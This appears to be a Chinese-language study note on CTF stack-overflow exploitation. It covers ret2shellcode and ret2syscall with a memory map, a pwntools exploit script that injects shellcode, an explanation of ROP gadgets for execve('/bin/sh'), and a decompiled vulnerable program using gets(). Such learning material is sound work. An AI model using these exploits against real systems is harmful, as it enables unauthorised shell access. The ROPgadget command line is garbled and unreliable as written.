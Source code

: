 ```
0xf7fd5000 0xf7fd7000 0x00000000 r-- [vvar]
0xf7fd7000 0xf7fd9000 0x00000000 r-x [vdso]
0xf7fd9000 0xf7ffb000 0x00000000 r-x /lib/i386-linux-gnu/ld-2.23.so
0xf7ffb000 0xf7ffc000 0x00000000 rwx 
0xf7ffc000 0xf7ffd000 0x00022000 r-x /lib/i386-linux-gnu/ld-2.23.so
0xf7ffd000 0xf7ffe000 0x00023000 rwx /lib/i386-linux-gnu/ld-2.23.so
0xfffdd000 0xffffe000 0x00000000 rwx [stack]
```

所在区间为rwx，那么对于此类型就控制程序写入shellcode，再执行shellcode。

EXP如下:

```
#!/usr/bin/env python
from pwn import *
sh = process('./ret2shellcode')
## 自动生成shellcode
shellcode = asm(shellcraft.sh())
buf2_addr = 0x804a080
## shellcode先放入，剩余的再用'A'填充至112长度。
sh.sendline(shellcode.ljust(112, 'A') + p32(buf2_addr))
sh.interactive()
```

**<u>shellcode放进去了不需要别的操作吗？这个buf2_addr指的是什么？如何通过调试确定需要填充的长度？</u>**

**第三种类型：ret2syscall：**
即控制函数执行系统调用。简单地说，只要把对应获取 shell 的系统调用的参数放到对应的寄存器中，那么我们在执行 int 0x80 就可执行对应的系统调用。比如说这里我们利用如下系统调用来获取 shell。

```
execve("/bin/sh",NULL,NULL)
```

由于该程序是 32 位，所以我们需要使得

- 系统调用号，即 eax 应该为 0xb
- 第一个参数，即 ebx 应该指向 /bin/sh 的地址，其实执行 sh 的地址也可以。
- 第二个参数，即 ecx 应该为 0
- 第三个参数，即 edx 应该为 0

而我们如何控制这些寄存器的值 呢？这里就需要使用 gadgets。比如说，现在栈顶是 10，那么如果此时执行了 pop eax，那么现在 eax 的值就为 10。但是我们并不能期待有一段连续的代码可以同时控制对应的寄存器，所以我们需要一段一段控制，这也是我们在 gadgets 最后使用 ret 来再次控制程序执行流程的原因。

具体实现--ropgadgets 这个工具:

only ‘pop|ret’ | grep 'eax’这类的命令(前面汇编指令，后面寄存器名。)找到gadgets，找到能符合条件改变eax，ebx，ecx，edx的语句，实现execve("/bin/sh",NULL,NULL)此系统调用所需要改变四种寄存器的值。再寻找字符串/bin/sh的地址以及命令int 0x80的地址。不同的系统调用所需要改变的寄存器个数与参数是不一样的，所以要寻找的gadgets也是不一样的。

平凡无奇的存在栈溢出漏洞的程序源码如下：

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("This time, no system() and NO SHELLCODE!!!");
  puts("What do you plan to do?");
  gets(&v4);
  return 0;
}
```
